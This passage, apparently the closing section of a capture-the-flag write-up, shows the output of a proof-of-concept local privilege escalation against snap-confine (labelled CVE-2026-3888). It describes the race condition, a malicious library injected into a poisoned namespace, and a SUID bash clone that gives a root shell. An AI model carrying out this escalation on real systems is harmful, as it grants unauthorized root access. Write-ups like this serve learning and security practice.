jonathan@snapped:~$ ./exploit ./librootshell.so 
================================================================
    CVE-2026-3888 - snap-confine / systemd-tmpfiles SUID LPE
================================================================
[*] Payload: /home/jonathan/./librootshell.so (9056 bytes)

[Phase 1] Entering Firefox sandbox...
[+] Inner shell PID: 15464

[Phase 2] Waiting for .snap deletion...
[+] .snap already gone!

[Phase 3] Destroying cached mount namespace...
cannot perform operation: mount --rbind /dev /tmp/snap.rootfs_dZTbyy//dev: No such file or directory
[+] Namespace destroyed.

[Phase 4] Setting up and running the race...
[*]   Working directory: /proc/15464/cwd
[*]   Building .snap and .exchange...
[*]   285 entries copied to exchange directory
[*]   Starting race...
[*]   Monitoring snap-confine (child PID 15483)...

[!]   TRIGGER - swapping directories...
[+]   SWAP DONE - race won!
```

Once the race condition has been won, we cd into `/proc/PID/root/tmp` to find a few files that have been created for the upcoming steps.

```
jonathan@snapped:/proc/15483/root/tmp$ ls -la
total 20
drwxrwxrwt  4 root     root     4096 Apr  6 01:43 .
drwxr-xr-x 21 root     root      540 Apr  6 01:43 ..
-rw-rw-r--  1 jonathan jonathan   14 Apr  6 01:43 race_perms.txt
-rw-rw-r--  1 jonathan jonathan    6 Apr  6 01:43 race_pid.txt
drwxr-xr-x  4 root     root     4096 Apr  6 01:43 .snap
drwxrwxrwt  2 root     root     4096 Apr  5 21:49 .X11-unix
```

Now we must inject our malicous payload into the poisoned namespace. Since the dynamic linker has been overwritten by us, only binaries that have been statically linked will work here. In our case, we are putting busybox into the poisoned PID's `/tmp` directory. It will also create a sh script that will clone Bash and give it an SUID bit under a writable directory.

Once the snap-confine binary has been called, it will load the malicious library and create the Bash clone, giving us root privileges. The PoC takes care of most of the steps which is nice and I'm glad I found it before attempting to create my own.

Once everything executes, the PoC drops us into a root shell and we can grab the final flag from the root directory to complete this challenge.

```
[Phase 7] Verifying...
[+] SUID root bash: /var/snap/firefox/common/bash (mode 4755)
[*] Cleaning up background processes...

================================================================
  ROOT SHELL: /var/snap/firefox/common/bash -p
================================================================

bash-5.1# id
uid=0(root) gid=0(root) groups=0(root)

bash-5.1# cat /root/root.txt
[REDACTED]
````

Overall, this box was pretty cool and I enjoyed both the web exploitation and privesc. I hope this was helpful to anyone following along or stuck and happy hacking!
